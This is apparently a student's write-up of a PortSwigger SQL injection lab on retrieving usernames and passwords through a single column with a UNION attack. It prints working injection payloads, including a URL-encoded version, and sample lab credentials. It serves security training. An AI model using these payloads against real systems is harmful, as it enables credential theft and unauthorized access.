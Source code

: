 # Lab: SQL injection UNION attack, retrieving multiple values in a single column

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

## Conceptual Review

Sometimes, the query may only return a single column, so how are we supposed to return the username and password?

We can retrieve multiple values together with a single column by concatenating the values together. You can use a seperator to split the username and password to avoid confusion.

> ' UNION SELECT username || '~' || password FROM users--

This uses the double-pipe sequence `||` which is a string concatenation operator on Oracle. 

For example the results we will get looks like:

```
...
administrator~s3cure
wiener~peter
carlos~montoya
...
```

## Attempt

We recon with the tactics learnt from last lab.

![pic1](pics/pic1.png)

![pic2](pics/pic2.png)

Now it is important to check what database the server is using. To do so, I referred to the [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) to see which payload to use.

![pic3](pics/pic3.png)

So now we confirmed that the databse is PostgreSQL, which means, when we want to concatenate our inputs, we use `'foo'||'bar'`.

Now we test our payload:

> ' UNION SELECT NULL, username || '~' || password FROM users--

![pic4](pics/pic4.png)

However, when I was trying this on the lab website, it outputs differently from expected.

![pic5](pics/pic5.png)

Looking deeper into the link, I see that the browser is encoded additional `%` everytime it is trying to encode `'`.

> Accessories%2527+UNION+SELECT+NULL,+username+%7C%7C+%2527~%2527+%7C%7C+password+FROM+users--

Removing the extra `25`, we solve the lab

![pic6](pics/pic6.png)